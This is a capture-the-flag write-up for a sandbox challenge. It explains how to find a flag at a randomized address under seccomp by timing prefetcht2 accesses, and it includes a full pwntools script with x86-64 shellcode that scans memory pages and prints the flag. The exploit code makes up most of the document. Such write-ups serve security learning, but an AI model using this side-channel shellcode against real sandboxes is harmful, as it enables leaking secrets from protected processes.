 # sandbox

This challenge allocates a random address and reads the flag into it. The program then reads the user input into another memory address and executes some assembly code. The assembly puts a value `0x13371337` into all registers, sets the stack to `0x13371337000` and then jumps to our shellcode. This way, the program removes all available references to the flag address.

I had an idea that you could use the `sys_access` syscall to scan for a valid memory address to the flag but seccomp is enabled and only allows read/write syscalls. The challenge gives some reading references and it turns out that you can use the `prefetcht2` instruction to measure the time it takes to access a memory address. This way, you can scan all memory addresses in the possible range and find the flag address by finding the address that takes the longest to access. I had already solved this type of challenge on pwn.college, level 2.1 [here](https://pwn.college/cse494-s2023/speculative-execution). This requires setting some threshold and doing some trial and error but I got the flag with the following script:

```python
from pwn import *
context.arch = "amd64"

# for measure: r8 is start address, r9 is end address, r10 is ptr to be checked
# for repeat_measure: r11 is ptr, r12 is sum
code = f"""
xor r14, r14
mov r14, 0x1337000
loop:
	// check every next page of memory
	add r14, 0x1000
	push r14
	call repeat_measure
	/* int3 */
	// cmp rax, 1200 threshold for remote
	cmp rax, 900
	jg loop

/* int3 */
// if we reach here, we found correct address
mov rdi, 1
mov rsi, r14
mov rdx, 100
mov rax, 1
syscall

mov rax, 60
syscall

measure:
	xor r8, r8
	xor r9, r9
	pop r13
	pop r10
	rdtsc
	shl	rdx,0x20
	or 	rax,rdx
	mov	r8, rax

	lfence
	nop
	mov rax, r10
	prefetcht2 BYTE PTR [rax]
	lfence
	nop

	rdtsc
	shl	rdx,0x20
	or 	rax,rdx
	mov	r9, rax

	sub r9, r8
	mov rax, r9
	push r13
	ret

repeat_measure:
	pop r15
	pop r11
	xor r12, r12
	xor rcx, rcx

	repeat_measure_loop:
		push r11
		call measure
		add r12, rax
		add rcx, 1

	cmp rcx, 20
	jl repeat_measure_loop

	mov rax, r12
	push r15
	ret
	"""

io = process("./chal")
# io = remote("amt.rs", 31173)

if args.GDB:
	gdbscript = """
	c
	"""
	gdb.attach(io, gdbscript=gdbscript)

io.sendafter(b"> ", asm(code))

io.interactive()
```